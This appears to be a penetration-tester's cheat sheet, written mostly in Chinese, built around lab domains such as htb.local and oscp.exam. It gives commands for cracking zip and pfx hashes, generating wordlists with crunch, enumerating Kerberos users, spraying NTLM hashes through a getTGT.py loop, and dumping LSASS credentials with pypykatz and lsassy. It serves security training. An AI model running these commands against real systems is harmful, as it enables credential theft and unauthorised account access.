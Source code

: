 ```
zip2john [FILE]
```


**密码生成工具： crunch**
[crunch(kali密码生成工具)----介绍与使用_kali crunch用法-CSDN博客](https://blog.csdn.net/qq_38319566/article/details/107737119)
```
crunch <min-len>  <max-len>  [<charset string>] [options]
-t 指定输出的格式
%      代表数字  
^      代表特殊符号  
@      代表小写字符  
,      代表大写字符
```

```bash
crunch 13 13 -t bev,%%@@^1995 -o password.txt
生成13长度的bev[一个大写字符][两个数字][两个小写字符][一个特殊符号]1995 ，保存到password.txt文件中
```


**.pfx 文件 key 爆破**
```
└─$ pfx2john legacyy_dev_auth.pfx > legacyy_dev_auth.pfx.hash
```


**kerbrute**
```bash
~/tool/kerbrute_linux_amd64 userenum -d htb.local --dc htb.local user_list
```


**getTGT.py**
``` bash
/usr/share/doc/python3-impacket/examples/getTGT.py
```

```bash
#!/bin/bash


while IFS='' read -r LINE || [ -n "${LINE}" ]
do
        echo "feed the Hash : ${LINE}"
        /usr/share/doc/python3-impacket/examples/getTGT.py htb.local/henry.vinson@htb.local -hashes ${LINE}

done < backup/password_hash

```


**pypykatz （dump DMP file）**
```bash
pypykatz lsa minidump lsass.DMP
```


**lssasy (mimikatz)**
```bash
lsassy -d MS01.oscp.exam -u administrator -p December31 192.168.244.153
```


**MailSniper (outlook Web, Office 365, Exchange)**
[CMS (Web) 漏洞，攻击向量](CMS%20(Web)%20漏洞，攻击向量.md)